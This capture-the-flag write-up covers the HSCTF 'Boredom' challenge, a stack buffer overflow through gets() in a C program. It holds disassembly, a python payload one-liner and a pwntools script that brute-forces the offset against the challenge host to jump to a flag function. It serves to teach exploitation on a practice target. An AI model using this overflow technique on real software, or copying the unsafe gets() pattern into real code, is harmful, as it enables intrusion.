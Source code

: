 # Boredom

## Description

Keith is bored and stuck at home. Give him some things to do.

Connect at nc pwn.hsctf.com 5002.

Note, if you're having trouble getting it to work remotely:

 - check your offset, the offset is slightly different on the remote server

 - the addresses are still the same

## Solution

We're given source code to analyse:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <signal.h>

void setup() {
  puts("I'm currently bored out of my mind. Give me something to do!");
  setvbuf(stdin, NULL, _IONBF, NULL);
  setvbuf(stdout, NULL, _IONBF, NULL);
}

void flag() {
  FILE *f = fopen("flag.txt", "r");
  char buf[50];
  if (f == NULL) {
    puts("You're running this locally or I can't access the flag file for some reason.");
    puts("If this occurs on the remote, ping @PMP#5728 on discord server.");
    exit(1);
  }
  fgets(buf, 50, f);
  printf("Hey, that's a neat idea. Here's a flag for your trouble: %s\n",
    buf);
  puts("Now go away.");
  exit(42);
}

int main() {
  char toDo[200];
  setup();

  printf("Give me something to do: ");
  gets(toDo);
  puts("Ehhhhh, maybe later.");
  return 0;
}
```

Here, we can see the program makes a call to ```gets()``` before returning.

We can use this to overwrite the return address and jump to the flag function.

If we disassemble the program and list all functions, we can get the address of the flag function.

```
[greenavocado@greenavocado-pc Boredom]$ r2 boredom
 -- aaaa is experimental
[0x004010a0]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0x004010a0]> afl
0x004010a0    1 46           entry0
0x004010e0    4 33           sym.deregister_tm_clones
0x00401110    4 57   -> 51   sym.register_tm_clones
0x00401150    3 33   -> 32   sym.__do_global_dtors_aux
0x00401180    1 6            entry.init0
0x00401320    1 5            sym.__libc_csu_fini
0x00401328    1 13           sym._fini
0x004012b0    4 101          sym.__libc_csu_init
0x004010d0    1 5            sym._dl_relocate_static_pie
0x00401260    1 77           main
0x00401186    1 79           sym.setup
0x00401030    1 6            sym.imp.puts
0x00401070    1 6            sym.imp.setvbuf
0x00401040    1 6            sym.imp.printf
0x00401060    1 6            sym.imp.gets
0x004011d5    3 139          sym.flag
0x00401080    1 6            sym.imp.fopen
0x00401090    1 6            sym.imp.exit
0x00401050    1 6            sym.imp.fgets
0x00401000    3 27           sym._init
[0x004010a0]>
```

Note the address of the ```sym.flag``` function, 0x004011d5.
We'll need to overwrite the return address of ```main``` with this in order to jump to it.

Next, lets disassemble the ```main``` function to find the offset.

```asm
[0x004010a0]> pdf @ main
            ; DATA XREF from entry0 @ 0x4010c1
┌ 77: int main (int argc, char **argv, char **envp);
│           ; var char *s @ rbp-0xd0
│           0x00401260      55             push rbp
│           0x00401261      4889e5         mov rbp, rsp
│           0x00401264      4881ecd00000.  sub rsp, 0xd0
│           0x0040126b      b800000000     mov eax, 0
│           0x00401270      e811ffffff     call sym.setup
│           0x00401275      488d3dae0e00.  lea rdi, str.Give_me_something_to_do: ; 0x40212a ; "Give me something to do: " ; const char *format
│           0x0040127c      b800000000     mov eax, 0
│           0x00401281      e8bafdffff     call sym.imp.printf         ; int printf(const char *format)
│           0x00401286      488d8530ffff.  lea rax, [s]
│           0x0040128d      4889c7         mov rdi, rax                ; char *s
│           0x00401290      b800000000     mov eax, 0
│           0x00401295      e8c6fdffff     call sym.imp.gets           ; char *gets(char *s)
│           0x0040129a      488d3da30e00.  lea rdi, str.Ehhhhh__maybe_later. ; 0x402144 ; "Ehhhhh, maybe later." ; const char *s
│           0x004012a1      e88afdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004012a6      b800000000     mov eax, 0
│           0x004012ab      c9             leave
└           0x004012ac      c3             ret
```

We can see that ```gets()``` is writing to ```rbp-0xd0```.
Our padding is going to be 0xd0+8 to overwrite ```rbp```.

We can try this by writing 0xd0+8 arbitrary bytes, then the address of the ```flag``` function.

```
python -c "import sys; sys.stdout.buffer.write(b'\x41' * (0xd0+8) + b'\xd5\x11\x40\x00\x00\x00\x00\x00')" | ./boredom
```

Here's the output:

```
[greenavocado@greenavocado-pc Boredom]$ python -c "import sys; sys.stdout.buffer.write(b'\x41' * (0xd0+8) + b'\xd5\x11\x40\x00\x00\x00\x00\x00')" | ./boredom
I'm currently bored out of my mind. Give me sumpfink to do!
Give me something to do: Ehhhhh, maybe later.
Hey, that's a neat idea. Here's a flag for your trouble: flag{7h3_k3y_l0n3l1n355_57r1k35_0cff9132}
Now go away.
```

This would fail if we were to try this on the shell server due to the different offset mentioned in the description.
To find the offset, it shouldn't be difficult to bruteforce it.

## Exploit Script

I've written a script to start at the minimum offset, 208.
This is because the char array has a size of 200, and 8 bytes must be reserved for ```rbp```.

If the script fails to get a flag, it adds 8 to the padding and tries again.

```py
#!/usr/bin/python2
from pwn import *

paddingsize = 208
win = False

while win == False:
    conn = remote("pwn.hsctf.com", 5002)
    print conn.recvline()
    payload = 'A' * paddingsize + '\xd5\x11\x40\x00\x00\x00\x00\x00'
    conn.send(payload + '\n')
    print paddingsize
    print conn.recvline()
    try:
        flagline = conn.recvline()
        print flagline
        flag = flagline[flagline.index("flag{"):flagline.index("}") + 1]
    except:
        conn.close()
        paddingsize += 8
    else:
        win = True

f = open("flag.txt", "w")
f.write(flag)
f.close()
```

Conveniently, the first attempt succeeds with a padding of 208 bytes.

## Flag

```flag{7h3_k3y_l0n3l1n355_57r1k35_0cff9132}```

